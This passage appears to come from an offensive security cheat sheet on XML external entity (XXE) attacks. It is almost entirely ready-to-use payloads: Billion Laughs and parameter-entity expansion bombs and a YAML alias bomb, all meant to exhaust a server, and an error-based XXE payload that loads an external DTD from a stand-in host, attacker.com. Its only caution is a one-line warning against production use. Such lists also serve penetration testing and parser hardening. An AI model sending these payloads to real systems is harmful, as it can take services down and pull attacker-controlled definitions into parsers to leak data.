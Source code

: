 
## Exploiting XXE to perform a deny of service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### Parameters Laugh attack

A variant of the Billion Laughs attack, using delayed interpretation of parameter entities, by Sebastian Pipping.

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```

## Exploiting Error Based XXE

**Payload to trigger the XXE**

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```
